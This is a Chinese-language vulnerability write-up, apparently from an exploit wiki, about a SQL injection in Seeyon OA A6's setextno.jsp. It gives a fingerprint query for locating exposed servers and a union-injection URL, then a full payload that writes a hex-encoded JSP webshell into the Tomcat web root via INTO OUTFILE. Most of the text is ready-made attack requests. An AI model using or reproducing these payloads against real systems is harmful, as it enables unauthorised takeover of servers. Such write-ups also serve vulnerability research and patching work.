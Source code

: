 # 致远OA A6 setextno.jsp SQL注入漏洞

## 漏洞描述

致远OA A6 setextno.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

访问如下Url，其中含有 union注入

```
/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(md5(1)),4#
```

![image-20220520152851758](./images/202205201528813.png)

查看web路径

![image-20220520152913900](./images/202205201529936.png)

写入文件上传木马

```
http://xxx.xxx.xxx/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(select unhex('3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E')  into outfile 'D:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp'),4#
```

![image-20220520152936293](./images/202205201529359.png)
